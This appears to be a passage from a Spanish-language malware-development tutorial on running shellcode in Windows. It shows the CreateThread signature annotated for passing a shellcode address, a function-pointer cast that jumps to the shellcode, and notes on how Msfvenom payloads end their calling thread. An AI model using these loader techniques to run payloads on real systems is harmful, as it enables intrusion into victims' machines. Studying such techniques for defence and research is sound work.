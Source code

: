 ## Payload Execution Via CreateThread

Finalmente, el payload es ejecutado creando un nuevo hilo usando la función de la API de Windows `CreateThread` y pasando `pShellcodeAddress` que es la dirección del shellcode.

La función `CreateThread` de la WinAPI se ve de la siguiente manera basándose en su documentación

```c
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
      // Set to NULL - optional
  [in]            SIZE_T                  dwStackSize,
             // Set to 0 - default
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
          // Pointer to a function to be executed by the thread, in our case its the base address of the payload
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
             // Pointer to a variable to be passed to the function executed (set to NULL - optional)
  [in]            DWORD                   dwCreationFlags,
         // Set to 0 - default
  [out, optional] LPDWORD                 lpThreadId
               // pointer to a 'DWORD' variable that receives the thread ID (set to NULL - optional)   
);
``` 

## Payload Execution via Function Pointer

Alternativamente, hay una forma más simple de ejecutar el shellcode sin usar la API de Windows `CreateThread`. En el ejemplo a continuación, el shellcode se **convierte a un puntero de función VOID** y el shellcode se ejecuta como un puntero de función. El código esencialmente salta a la dirección `pShellcodeAddress`.

- `(*(VOID(*)()) pShellcodeAddress)();`
- Es el equivalente a correr el siguiente código:

```c
    typedef VOID (WINAPI* fnShellcodefunc)();
           // Defined before the main function
    fnShellcodefunc pShell = (fnShellcodefunc) pShellcodeAddress;
    pShell();
``` 

## CreateThread vs Function Pointer

Aunque es posible ejecutar shellcode usando el function pointer method, generalmente **no se recomienda**.
 El shellcode generado por Msfvenom termina el hilo que lo llama después de que termina de ejecutarse. Si el shellcode fue ejecutado usando el function pointer method, entonces el hilo que lo llama será el hilo principal y por lo tanto todo el proceso saldrá después de que el shellcode termine de ejecutarse.
